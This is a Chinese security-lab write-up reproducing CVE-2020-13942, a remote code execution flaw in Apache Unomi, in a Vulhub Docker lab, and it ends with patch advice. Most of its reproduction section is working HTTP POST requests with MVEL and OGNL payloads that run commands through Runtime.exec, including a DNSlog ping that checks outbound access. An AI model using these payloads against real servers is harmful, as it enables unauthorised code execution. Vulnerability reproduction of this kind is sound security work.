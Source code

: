 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JyxYe-LOvmXXL-qBIJX6vw)

  

  

网安引领时代，弥天点亮未来   

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x00 漏洞简述**  

  

Apache Unomi 是一个 Java 开源客户数据平台，这是一个 Java 服务器，旨在管理客户，潜在顾客和访问者的数据，并帮助个性化客户体验。Unomi 可用于在非常不同的系统（例如 CMS，CRM，问题跟踪器，本机移动应用程序等）中集成个性化和配置文件管理。

在 Apache Unomi 1.5.1 版本之前，攻击者可以通过精心构造的 MVEL 或 ONGl 表达式来发送恶意请求，使得 Unomi 服务器执行任意代码执行。

该漏洞编号为 CVE-2020-13942 ，漏洞等级：高危 ，漏洞评分：7.2

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x01 影响版本**

  

  

Apache Unomi < 1.5.2

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x02 漏洞复现**

  

  

漏洞项目

```
https://github.com/vulhub/vulhub/tree/master/unomi/CVE-2020-13942
```

虚拟机部署 docker 安装 Vulhub 一键搭建漏洞测试靶场环境。

docker-compose up -d

1、漏洞环境启动

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwVkaGGSXXzRx89dTrfEyL3myF1Eaia4hdib2h0qxPWdYI99q1LicdA8AK4w/640?wx_fmt=png)

2、访问漏洞环境  

http://192.168.60.139:8181

https://192.168.60.139:9443

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwV5ict0SN1h6Ddd1fcHiaic7kZEc0SI3Mlyn2pxMCAaRLTlYIyEibCsviaibicA/640?wx_fmt=png)

3、POC 测试漏洞是否存在

```
POST /context.json HTTP/1.1
Host: 192.168.60.139:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 493


{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/yunzui\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

执行

```
touch /tmp/yunzui
```

查看执行效果  

```
docker exec -it eac965daa7dc /bin/bash
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwVgWU23nU0cYko6oMFCQ8gO4n3YflVR8NzMbxZohia2g6ichRnWQpBMHPg/640?wx_fmt=png)  

4、漏洞利用  

1.DNSlog 出网验证

域名生成 

j4zq71.dnslog.cn

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwVtzJKjzUfF2v6KCRic1tZvUTibk715XPXRt3uD30Q6322DiaY9Syb8cYbA/640?wx_fmt=png)

```
POST /context.json HTTP/1.1
Host: 192.168.60.139:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 495


{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(ping j4zq71.dnslog.cn);"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwV5Z7demkfzETsUJez3nEAibl1rCE0hwicxLEJHTPIyvN9BZMCGpib1edgA/640?wx_fmt=png)

DNGlog 记录发现可以出网  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwVuO005IZOQFPeZYZwBa3rTDFOZU5yxbwOjtibBJDg1T2rtLe4taFuUFw/640?wx_fmt=png)

2.exp 进行命令执行 

```
POST /context.json HTTP/1.1
Host: 192.168.60.139:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1065


{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/yunzui1\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

执行  

```
touch /tmp/yunzui1
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwV56YlgiblwPv43xdJhZLXqQbHhQHxckEVdzjx9C4aPMdk8LFb0ibvyFjg/640?wx_fmt=png)

查看执行效果  

```
docker exec -it eac965daa7dc /bin/bash
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCdXvoQRzZEJia9R0JPFCMwVJoRKUqDCtOaq8ibicaJg5s8I6pLSYk18SRXaCjk2V85I0ha66Ve0708w/640?wx_fmt=png)

‍

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x03 修复建议**

  

  

1、尽可能避免将用户数据放入表达式解释器中。

2、目前厂商已发布最新版本，请受影响用户及时下载并更新至最新版本。

官方链接如下：

```
https://unomi.apache.org/download.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x04 参考链接**

  

  

https://blog.csdn.net/qq_37602797/article/details/110010273

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif) 

知识分享完了

喜欢别忘了关注我们哦~  

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=jpeg)
